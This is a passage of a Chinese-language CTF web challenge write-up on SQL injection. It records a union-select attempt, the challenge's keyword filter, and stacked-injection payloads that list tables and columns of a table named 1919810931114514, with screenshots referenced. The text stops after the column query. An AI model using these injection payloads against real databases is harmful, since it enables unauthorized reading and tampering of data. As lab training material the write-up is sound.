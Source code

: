 **列数为2**

## 使用联合注入

### 1' union select 1,2 #

![image-20230702183149496](CTF(WEB)image/image-20230702183149496.png) 

**返回被过滤的字符，可以知道/select|update|delete|drop|insert|where|\\./i"被过滤**

## 使用堆叠注入

### 1';show tables; #

![image-20230702183440887](CTF(WEB)image/image-20230702183440887.png) 

**此时发现两个数据表，1919810931114514，words**

### 1';show columns from \`1919810931114514`; #

![image-20230702183708795](CTF(WEB)image/image-20230702183708795.png) 
